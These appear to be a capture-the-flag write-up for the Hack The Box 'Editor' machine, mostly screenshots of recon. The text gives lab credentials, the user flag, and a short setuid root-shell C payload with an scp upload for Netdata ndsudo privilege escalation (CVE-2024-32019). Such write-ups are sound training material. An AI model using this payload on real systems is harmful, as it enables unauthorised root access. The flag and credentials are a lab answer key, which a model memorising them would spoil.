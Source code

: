 [[HTB Labs]]
![[Pasted image 20250813014825.png]]
# Recon
### Port scan

![[Pasted image 20250813000630.png]]

![[Pasted image 20250813000647.png]]

### Directory Scanning
![[Pasted image 20250813000743.png]]

### Port 8080
![[Pasted image 20250813000900.png]]
![[Pasted image 20250813000912.png]]

One thing that i found that this version has Vulnerablity
#### CVE-2024-24893 (research)
![[Pasted image 20250813004737.png]]

![[Pasted image 20250813004731.png]]
![[Pasted image 20250813004420.png]]
oliver:theEd1t0rTeam99

## User Flag
![[Pasted image 20250813004854.png]]
fd34f52daa038148803970a066da1b93
# Priv Escalation

This type of vulnerable is `Privilege Escalation via ndsudo (Netdata Local Exploit)
**[CVE-2024-32019](https://github.com/AzureADTrent/CVE-2024-32019-POC)**

```
┌──(root㉿kali)-[/home/kali/Desktop/HTB/Editor]
└─# cat poc.c
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

```
scp nvme oliver@editor.htb:/tmp/
oliver@editor.htb's password: 
nvme 
```


![[Pasted image 20250813014330.png]]

![[Pasted image 20250813014250.png]]

